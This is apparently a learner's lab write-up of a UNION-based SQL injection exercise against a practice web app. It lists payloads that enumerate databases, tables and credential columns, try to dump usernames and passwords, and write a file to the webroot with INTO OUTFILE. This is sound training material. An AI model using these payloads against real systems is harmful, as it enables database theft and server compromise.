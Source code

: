 # Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -

With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

**NOTE: I didn't notice the first time through but this command puts you on a page related to payroll, which intakes different injections than the home page**

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -

Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

This returned:

>10.3.22-MariaDB-1ubuntu1

Then I wanted to determine the current database name using the following query:

>cn' UNION SELECT 1,database(),3,4,5-- -

Which returned:

>ilfreight

Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

This returned the following:

>information_schema 	3 	4 	5
>mysql 	3 	4 	5
>performance_schema 	3 	4 	5
>ilfreight 	3 	4 	5
>backup 	3 	4 	5

From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

These queries had the following output respectively:

>payment 	ilfreight 	4 	5
>users 	ilfreight 	4 	5

>admin_bk 	backup 	4 	5

Now I determined that I would list all columns of the admin_bk and backup tables from the backup database:

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='backup'-- -

This generated the following output respectively:

>username 	admin_bk 	backup 	5
>password 	admin_bk 	backup 	5

>(no output)

Now I decided to dump data from a table in another database:

>c' UNION select 1, username, password, 4, 5 from username.backup-- -

>c' UNION select 1, username, password, 4, 5 from password.backup-- -

This returned that the targets did not exist. I decided to try again using admin_bk instead of backup:

>c' UNION select 1, username, password, 4, 5 from password.admin_bk-- -

Similar results. Clearly I have a problem with my database.table part of the query.

When I tried backup.username, this was still incorrect.

I then watched a bit of a youtube vid and tried to use the OUTPUT INTO function to write to the file proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/proof.txt'-- -

This did not work because the dashboard directory should be at the end of the directory path to include proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

This returned no output, suggesting that we have successfully written to the file.

I then checked by including /var/www/html/dashboard/proof.txt at the end of my working URL for the site:

>/http://94.237.58.135:59758/dashboard/proof.php

This output indicates that our file write was successful.